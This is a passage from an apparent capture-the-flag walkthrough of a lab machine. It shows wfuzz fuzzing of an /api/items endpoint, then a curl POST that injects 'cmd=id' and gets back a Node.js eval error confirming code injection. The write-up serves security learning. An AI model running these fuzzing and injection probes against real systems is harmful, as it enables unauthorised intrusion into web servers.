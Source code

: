 Once again in the function is directory /api/items this displays some json:
`{"sins":["lust","gluttony","greed","sloth","wrath","envy","pride"],"errors":["error","error","error","error","error","error","error","error","error"],"deaths":["death"]}`

Having never done any API hacking of any kind I was assumed I need to use either wfuzz or fuff. I read [alirezac0](https://github.com/alirezac0/TryHackMe-Writeups/tree/master/GLITCH) for guidance.

```bash
wfuzz -c -z file,/usr/share/wordlists/SecLists/Discovery/Web-Content/api/objects.txt -X POST --hc 404,400 10.10.206.223/api/items\?FUZZ\=test
```
As this is walkthrough I will explain this command. We are wfuzzing an end point in api `\?` is the parametre that will be fuzzed with argument of test to test for a legitimate responses.
The flag -z specifies a playload that will just be the wordlist to fuzz the location FUZZ, -X POST specifies to use the POST method, -hc hides responses that result in error codes.

![wfuzz](Screenshots/wfuzz-output.png)

Then we can try more appropriate specific keywords to  pass to the "cmd" endpoint:

```bash
root@ip-10-10-105-166:~# curl -X POST http://10.10.206.223/api/items/?cmd\=id
<!DOCTYPE html>
<html lang="en">
<head>
<meta charset="utf-8">
<title>Error</title>
</head>
<body>
<pre>ReferenceError: id is not defined<br> &nbsp; &nbsp;at eval (eval at router.post (/var/web/routes/api.js:25:60), &lt;anonymous&gt;:1:1)<br> &nbsp; &nbsp;at router.post (/var/web/routes/api.js:25:60)<br> &nbsp; &nbsp;at Layer.handle [as handle_request] (/var/web/node_modules/express/lib/router/layer.js:95:5)<br> &nbsp; &nbsp;at next (/var/web/node_modules/express/lib/router/route.js:137:13)<br> &nbsp; &nbsp;at Route.dispatch (/var/web/node_modules/express/lib/router/route.js:112:3)<br> &nbsp; &nbsp;at Layer.handle [as handle_request] (/var/web/node_modules/express/lib/router/layer.js:95:5)<br> &nbsp; &nbsp;at /var/web/node_modules/express/lib/router/index.js:281:22<br> &nbsp; &nbsp;at Function.process_params (/var/web/node_modules/express/lib/router/index.js:335:12)<br> &nbsp; &nbsp;at next (/var/web/node_modules/express/lib/router/index.js:275:10)<br> &nbsp; &nbsp;at Function.handle (/var/web/node_modules/express/lib/router/index.js:174:3)</pre>
</body>
</html>
```
[read](https://medium.com/r3d-buck3t/eval-console-log-rce-warning-be68e92c3090)
